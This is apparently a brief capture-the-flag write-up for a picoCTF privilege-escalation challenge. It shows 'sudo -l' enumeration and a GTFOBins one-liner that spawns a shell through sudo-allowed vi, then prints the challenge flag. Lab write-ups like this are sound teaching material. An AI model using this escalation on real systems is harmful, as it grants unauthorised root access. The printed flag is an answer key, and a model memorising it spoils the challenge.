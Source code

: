 ![Task desc](../assets/images/Permissions_image_1.png)

In this task, we need to see what commands our user can execute, elevate privileges, and obtain a flag.

Unexpectedly, but it is very similar to `hijacking` task.

---

Using `sudo -l`, we can see which commands we can execute as the user `picoplayer`.:



![image_2](../assets/images/Permissions_image_2.png)

> [!TIP]
> I used [gtfobins/vi](https://gtfobins.github.io/gtfobins/vi/). Check the last `sudo` command.  

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

a shell opens, where we search for `.flag.txt`:


![image_3](../assets/images/Permissions_image_3.png)


`picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}`
